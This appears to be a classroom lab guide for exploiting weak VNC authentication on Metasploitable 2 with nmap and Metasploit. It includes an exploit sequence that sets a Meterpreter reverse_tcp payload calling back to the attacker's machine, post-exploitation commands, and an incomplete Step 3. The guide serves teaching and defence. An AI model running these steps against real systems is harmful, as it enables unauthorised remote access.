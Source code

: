 # Task: Exploiting VNC Service on Metasploitable 2 (Port 5900)

### Learning Objectives

By the end of this exercise, you will be able to:

* Perform service enumeration on a target system.
* Identify the VNC service running on port `5900`.
* Use Metasploit to exploit weak authentication in VNC.
* Gain a remote Virtual Network Computing on Metasploitable 2.
* Understand the importance of secure configurations for remote desktop services.



### Background

Metasploitable 2 is an intentionally vulnerable Linux machine used for penetration testing practice. One of its services, **VNC (Virtual Network Computing)**, is exposed on port **5900**. VNC allows remote desktop access, but if misconfigured (like using weak authentication), attackers can gain control of the system.



### Lab Requirements

* Kali Linux (Attacker)
* Metasploitable 2 (Target)
* Both machines on the same network (e.g., VirtualBox/VMware Host-only or NAT network).



### Step 1: Reconnaissance with Nmap

Scan Metasploitable to find open ports:

```bash
nmap -sV -p 5900 <target_ip>
```

* `-sV` → Detect service version
* `-p 5900` → Scan only the VNC port

👉 Expected Output:
Shows `5900/tcp open vnc`.
<img width="950" height="227" alt="image" src="https://github.com/user-attachments/assets/ab0d045e-6cc1-4539-97f9-d5bb961feb22" />



### Step 2: Search for Vulnerabilities in Metasploit

Start Metasploit:

```bash
msfconsole
```

Search for VNC-related exploits:
search vnc using the command line
```bash
grep scanner search vnc
```
* `grep scanner` → scans and only search valuable info on the particular search
👉 You should find modules like:

* `auxiliary/scanner/vnc/vnc_login`

<img width="1357" height="345" alt="image" src="https://github.com/user-attachments/assets/0d789f4c-4e31-4c23-8a61-d7296d4d1461" />

  
<img width="1365" height="551" alt="vncv 2" src="https://github.com/user-attachments/assets/fc3283c3-38a0-404e-ad52-190f988cc341" />



### Step 3: Set-up Options

Set target IP:

```bash
set RHOSTS <target_ip>
run
```

<img width="1365" height="560" alt="vncv 3" src="https://github.com/user-attachments/assets/afd774a7-67ff-48ec-8ee6-e2a11b59d12e" />




### Step 4: Exploit and Gain Access

Now, attempt to interact with the session:

```bash
use exploit/multi/vnc/vnc_keyboard_exec
set RHOST <target_ip>
set PAYLOAD linux/x86/meterpreter/reverse_tcp
set LHOST <your_kali_ip>
exploit
```

👉 Expected Result:
You get a **Meterpreter session** or a remote shell on Metasploitable.



### Step 5: Post-Exploitation

Once inside:

```bash
shell
whoami
uname -a
```

* Confirm you have remote access.
* Enumerate the system.


### Step 6: Discussion / Mitigation

* Why is running VNC without authentication dangerous?
* How should VNC be secured? (passwords, encryption, network restrictions, VPNs).



###  Deliverables for Students

* Nmap scan result screenshot.
* Proof of successful VNC exploitation (shell access).
* Short write-up: *“How could this vulnerability be prevented in a real system?”*
